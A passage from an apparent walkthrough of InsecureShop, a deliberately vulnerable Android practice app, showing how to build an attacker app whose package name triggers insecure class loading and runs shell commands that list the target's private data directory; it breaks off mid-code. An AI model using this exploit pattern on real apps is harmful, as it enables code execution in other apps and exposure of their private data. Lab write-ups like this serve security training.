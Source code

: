 Let’s create a new project in Android Studio with the package name that begins with `com.insecureshopapp` to trigger the exploit:

![image.png](/assets/InsecureShop/image%2021.png)

Then create a new class called `MainInterface` to trigger the exploit:

```java
package com.insecureshopapp;

import android.content.Context;
import android.util.Log;
import android.widget.Toast;
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class MainInterface {
    public static Object getInstance(Context context) {
        // Malicious code to be executed
        StringBuilder output = new StringBuilder();
        try { 
            ProcessBuilder processBuilder = new ProcessBuilder("sh", "-c", "whoami;ls /data/data/com.insecureshop/");
            Process process = processBuilder.start();
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("\n");
            }
            process.waitFor();
            Log.d("MainInterface", "Command Output: " + output.toString());
        }
        catch (Exception e) {
```